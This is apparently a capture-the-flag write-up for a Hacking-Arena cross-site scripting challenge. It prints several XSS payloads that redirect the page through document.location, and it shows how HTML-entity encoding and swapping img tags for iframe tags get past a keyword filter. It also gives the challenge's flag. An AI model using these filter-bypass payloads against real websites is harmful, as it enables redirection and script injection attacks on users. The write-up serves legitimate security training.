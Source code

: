 # OSINT Challenge — "Cross Site Scripting"

## 🧭 Executive Summary
Can you redirect kenobi.hackingarena.com:821 to kenobi.hackingarena.com:822?

## 🧰 Methodology
First of all, we will try the simplest form of cross-site scripting to redirect and see where it leads us:
#<script>document.location='http://kenobi.hackingarena.com:821'</script>#. 

This did not work, and we see from the page source that the antihacker has blocked the words: “document”, “location” and “hacking”. So, we replace their first letters with their respective html code equivalents, and add an image tag before we try again:
#<img src=# onmouseover="&#00000100ocument.&#00000108ocation='http://kenobi.&#104&#97&#99&#107ingarena.com:822'"></img>#.

We see then that the "antihacker" stops the word “img”, so we try it again but this time with an “iframe” tag instead:

#<iframe src=# onmouseover="&#00000100ocument.&#00000108ocation='http://kenobi.&#104&#97&#99&#107ingarena.com:822'"></iframe>#.

This finally results in a successful redirection to “http://kenobi.hackingarena.com:822”, where we also find the flag for this task: “Hacking-Arena{Cross_Flag_is_here_for_you}”.


## 🧩 Lessons Learned
Input filters often target specific tokens; encoding and tag substitution can bypass simplistic filters.

## 🧠 Tags
'#crosssidescripting' '#xss' '#webhacking' '#ctf'

